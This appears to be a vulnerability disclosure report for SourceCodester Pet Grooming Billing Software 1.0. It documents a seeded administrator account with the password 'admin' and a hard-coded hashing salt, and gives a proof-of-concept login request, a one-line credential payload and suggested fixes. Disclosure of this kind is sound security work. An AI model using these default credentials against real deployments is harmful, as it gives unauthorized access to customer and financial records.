


# SourceCodester Pet Grooming Billing Software 1.0 /index.php email= Use of Hard-coded Default Credentials

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html
- https://www.sourcecodester.com/download-code?nid=18340

## Overview

- Pet Grooming Billing Software (a.k.a. "Pet grooming management software download" on SourceCodester, authored by mayuri_k), version 1.0 (current public download, 2026-11), ships with a hard-coded administrator account whose password is the trivially guessable value `admin`. The account (`mdkhairnar92@gmail.com`, username `mayurik`) is seeded in the shipped database dump with a salted SHA-256 hash whose salt is itself hard-coded in the application source. There is no setup wizard and no forced password change, so every deployment built from the shipped dump has a working administrator login known to anyone who tries one word.

## Details

- Vulnerable file: `/assets/app/auth.php` (login handler; account seeded in `Database/pet_grooming.sql`, form on `/index.php`)
- Affected version: 1.0 (current public download, 2026-11)
- The login form posts email/password to the auth handler:

```php
// index.php:75-82
<form action="assets/app/auth.php" method="POST" autocomplete="OFF">
    <input class="form-control form-control-lg" id="inputField1" type="text"
           placeholder="Email" autocomplete="off" name="email">
    <input class="form-control form-control-lg" id="inputField2" type="password"
           placeholder="Password" name="password">
```

- The handler hashes the submitted password with a **hard-coded salt** embedded in the source:

```php
// assets/app/auth.php:11-21
$email_address = $_POST['email'];
$passw = hash('sha256', $_POST['password']);
function createSalt()
{
    return '2123293dsj2hu2nikhiljdsd';
}
$salt = createSalt();
$pass = hash('sha256', $salt . $passw);
```

- The shipped dump seeds the administrator with the hash of `admin` under that scheme, plus five additional `role='admin'` accounts that share a second fixed hash:

```sql
-- Database/pet_grooming.sql:62-64
INSERT INTO `tbl_admin` (`id`, `role_id`, `username`, `email`, `password`, ...) VALUES
(1, 0, 'mayurik', 'mdkhairnar92@gmail.com', 'aa7f019c326413d5b8bcad4314228bcd33ef557f5d81c7cc977f7728156f4357', 'Mayuri', 'K', ...),
(9, 2, '', 'ravi.sharma@example.com', '68207a305fdb9fc2d93ef80182e8cf91ca36c71338890efde351066dd2d218a9', 'Ravi', 'Sharma', ...),
...
```

  `sha256('2123293dsj2hu2nikhiljdsd' + sha256('admin'))` = `aa7f019c326413d5b8bcad4314228bcd33ef557f5d81c7cc977f7728156f4357` — the seeded administrator hash. Nothing in the application forces a password change: `assets/app/auth.php:27` performs a plain `SELECT * FROM tbl_admin where email=... AND password=...` login and `admin/auth.php`'s session setup has no first-login flag, no expiry, and no install step. The five additional shared-hash admin accounts (rows 9-13: ravi.sharma / priya.mehta / aarav.patil / sneha.joshi / aman) broaden the exposure — five more role-admin principals on every shipped deployment.

- The `admin` role controls the full ERP: user management (`admin/add_user.php`, `admin/operation/user.php`), customer records, invoices/installments (financial records), products, and reports.

## Description

- An unauthenticated attacker opens the login page of any deployment of this product, submits `mdkhairnar92@gmail.com` / `admin` (or simply guesses the one-word password for the documented `mayurik` account), and receives the administrator session. No exploit beyond one login attempt is required, and the hard-coded salt in the source lets an attacker compute the hash of any password candidate offline against the shipped dump. Full control over the ERP follows: reading and modifying customer PII, creating invoices and installments, managing users (an admin can create additional administrators), and altering system settings.

## PoC

- Step 1 — administrator login with the seeded default credentials (verified over HTTP, local deployment):

```
GET / HTTP/1.1
Host: 127.0.0.1:8149

--- login form posts to ---

POST /assets/app/auth.php HTTP/1.1
Host: 127.0.0.1:8149
Content-Type: application/x-www-form-urlencoded

email=mdkhairnar92@gmail.com&password=admin
```

- Response (verbatim, the success popup rendered by the handler):

```html
<div class="popup popup--icon -success js_success-popup popup--visible">
  <div class="popup__content">
    <h3 class="popup__content__title">Success</h3>
    <p>Login Successfully</p>
    <script>setTimeout("location.href = '../../admin';",1500);</script>
```

- Step 2 — following the redirect renders the administrator dashboard (`/admin/index.php`) with the full admin navigation (User Management, Customer Management, Category, Product/Service, Invoice, Tax, Report) and the logged-in identity `MayuriK` in the top bar; the dashboard's Recent Order table already displays customer names and order totals.

## Payload

```
email=mdkhairnar92@gmail.com&password=admin   -> administrator session
```

## Screenshots

- Login page of the deployed product:



- Administrator dashboard reached with `mdkhairnar92@gmail.com` / `admin` (top bar shows `MayuriK`; sidebar shows the admin-only User Management navigation):



## Evidence

- Complete HTTP exchanges (login POST, success popup, dashboard fetch) are preserved in `poc/F4-F5-F6-F7-verification.txt` (sections "F4 step1-3").

## Suggested repair

1. **Remove the seeded demo account:** ship `database.sql` without the `tbl_admin` rows (or with randomized per-install passwords) and create the real administrator during an install wizard.
2. **Replace the hard-coded salt with per-install secrets:** derive the password-hash salt from an installation-time random value stored outside the source tree, or migrate to `password_hash()`/`password_verify()` which embeds a per-hash salt.
3. **Force rotation on first login:** add a `must_change_password` flag on seeded accounts and block ERP operations until the password is changed.
4. **Audit the extra admin rows:** delete the five shared-hash `role='admin'` accounts (rows 9-13) or convert them to non-privileged demo users.

## Dedup note

- NVD: keyword search "Pet Grooming" returns 32 CVEs for this product family (checked 2026-11-10) — all are SQL injection, XSS, file upload, CSRF, path traversal, or authorization issues; **none is a credentials issue**. CVE-2008-2294 concerns the homonymous "Pet Grooming Management System 2.0" (a different vendor/codebase, `useradded.php` privilege escalation).
- VulDB: three independent search-engine index passes restricted to vuldb.com (product name; submit #659305 details; "default credentials"/"check-login"/"mdkhairnar" variants) — no default-credentials entry for this product (checked 2026-11-10). VulDB site itself was unreachable (Cloudflare), so the passes relied on search-engine indexes.
